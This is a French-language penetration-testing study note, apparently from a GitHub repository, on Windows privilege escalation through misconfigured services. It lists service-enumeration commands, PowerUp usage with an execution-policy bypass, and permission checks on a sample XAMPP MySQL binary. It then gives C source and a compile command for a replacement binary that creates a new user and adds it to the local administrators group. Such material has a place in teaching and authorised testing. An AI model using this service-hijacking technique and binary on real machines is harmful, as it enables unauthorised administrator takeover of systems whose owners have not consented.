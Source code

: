 # 03-Escalade via les Services Windows

Les services Windows mal configurés sont une source fréquente d'escalade de privilèges.

## Énumération des Services

```powershell
# Lister les services et leurs chemins d'accès
Get-CimInstance -ClassName win32_service | Select Name, State, PathName, StartMode | Format-List
wmic service get name, displayname, pathname, startmode
sc qc "NomDuService" # Pour un service spécifique

# Utiliser PowerUp pour trouver les services vulnérables
# powershell -ep bypass
# . .\PowerUp.ps1
# Get-ModifiableServiceFile
# Get-ModifiableService
# Invoke-AllChecks
```

## Détournement de Binaire de Service (Service Binary Hijacking)
> Remplacer un binaire de service par un binaire malveillant lorsque les permissions le permettent.

**1. Identifier les Services Vulnérables**
Recherchez les services dont le binaire est dans un répertoire où vous avez des droits d'écriture.

```powershell
# Vérifier les permissions sur le binaire du service
icacls "C:\chemin\vers\service.exe"
# Exemple : BUILTIN\Users:(F) ou VotreUtilisateur:(F) ou (M)
```
Exemple de service XAMPP MySQL (tiré de `04-things-to-add.md`):
```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
# ...
# mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
# C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
#                               BUILTIN\Administrators:(F)
#                               BUILTIN\Users:(F) <---------- Important
```
Ici, `BUILTIN\Users` a un accès complet (F).

**2. Créer un Binaire Malveillant**
Par exemple, un binaire qui ajoute un utilisateur aux administrateurs.
```c
// adduser.c
#include <stdlib.h>

int main ()
{
  int i;
  i = system ("net user nomutilisateur motdepasse /add");
  i = system ("net localgroup administrators nomutilisateur /add");
  return 0;
}
```
Compiler :
```bash
# Sur Kali
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```